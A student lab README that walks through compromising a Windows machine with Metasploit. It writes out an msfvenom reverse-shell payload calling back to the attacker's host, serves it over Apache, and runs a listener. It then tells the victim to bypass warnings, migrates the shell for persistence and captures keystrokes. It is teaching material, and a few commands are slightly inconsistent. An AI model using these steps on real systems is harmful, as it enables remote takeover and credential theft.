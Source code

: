  Compromising-windows-using-Metasploit

Compromising windows using Metasploit

# Metasploit

Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/662e1113-220c-44d0-aa9f-1c83e254eb5e)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/a894c9ec-aec4-42e4-ae58-931e69c77190)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/2d40f577-88bf-4295-95e6-27bdbbcb9d06)

Start apache server sudo systemctl apache2 start

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/ae2a2d3d-d48c-40b0-896e-c8512f617487)

Check the status of apache2
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/474fad86-07e8-4bb9-84cd-1c87aca83d96)

Invoke msfconsole:

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/031a8ed0-0b12-4635-93cc-516c4d8bfe08)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/b3dc4d12-c7fb-4601-ac8f-b61afd501987)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/41162f9e-b75b-4956-b03e-c83fe535ead8)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/bfc7b80d-4ede-442c-b223-1fef21e57cc1)

The Metasploit shell is running inside the 
"fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/3461a1c8-8dd9-406d-95e7-e225c73d9df5)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/5f4557ea-be68-4a63-a578-4b14379dda22)

## RESULT:

The Metasploit framework is  used to compromise windows and is examined successfully.
